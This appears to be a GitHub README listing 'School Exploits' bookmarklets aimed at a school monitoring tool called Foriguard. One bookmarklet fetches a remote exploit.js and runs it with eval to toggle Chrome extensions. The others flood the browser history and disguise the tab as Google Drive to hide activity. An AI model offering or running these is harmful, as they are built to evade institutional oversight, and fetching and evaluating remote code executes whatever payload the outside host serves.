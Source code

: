 # Bookmarklets
A Bunch Of Bookmarklets That Work With Foriguard!



## School Exploits

### Extension Modifier
---
This Bookmarklet Allows The User To Turn On Or Off
Their Chrome Extensions.

```javascript:void fetch(`https://raw.githubusercontent.com/3kh0/ext-remover/main/exploit.js`).then(d=>d.text()).then(eval);```

This One Requires You To Open It Twice In The Same Tab!

### History Flooder
---
This Bookmarklet Allows The User To Flood Their
History With Whatever Tab They Are On.

```javascript:var num=prompt("History flood amount:");done=false;x=window.location.href;for (var i=1; i<=num; i++){history.pushState(0, 0, i==num?x:i.toString());if(i==num){done=true}}if(done===true){alert("History flood successful! "+window.location.href+" now appears in your history "+num+(num==1?" time.":" times."))}```

### Tab Disguise
---
This Bookmarklet Disguises The Tab You Are On To Look
Like Google Drive.

```javascript:function gcloak() { var link = document.querySelector("link[rel*='icon']") || document.createElement('link');link.type = 'image/x-icon';link.rel = 'shortcut icon';link.href = 'https://www.pngall.com/wp-content/uploads/9/Google-Drive-Logo-Transparent-180x180.png';document.title = 'My Drive - Google Drive';console.log(document.title);document.getElementsByTagName('head')[0].appendChild(link) };gcloak();setInterval(gcloak, 1000);```



